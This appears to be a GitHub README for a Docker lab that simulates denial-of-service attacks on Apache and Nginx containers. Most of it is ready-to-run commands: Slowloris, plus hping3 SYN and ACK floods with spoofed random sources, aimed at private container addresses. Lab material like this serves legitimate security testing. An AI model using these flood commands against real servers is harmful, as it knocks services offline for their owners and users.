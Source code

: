 # DDoS Attack Simulation Tool

This project provides a set of tools to simulate DDoS attacks against Apache and Nginx servers for testing and security evaluation purposes.

## Prerequisites

- Docker and Docker Compose must be installed on your machine.

## Usage

1. Build and run the containers

```bash
docker-compose -f stack.yml up -d --build

# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```

2. HTTP Flood Attacks

- Slowloris attack against the Apache server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

- Slowloris attack against the Nginx server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```

3. SYN Flood Attacks

- SYN Flood attack against the Apache server

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- SYN Flood attack against the Nginx server
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

4. ACK Flood Attacks

- ACK Flood attack against the Apache server
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- ACK Flood attack against the Nginx server
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

5. Stop the containers
```bash
docker-compose -f stack.yml down
```

## Disclaimer

This project is for educational purposes only. Do not use it for illegal purposes. The authors of this project are not responsible for any misuse of the information provided.

## Authors
Ahmat Mahamat Ahmat
Elaggoun Aref
Fouché Stanislas
Memar Ahmed

## Licence

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

```


 
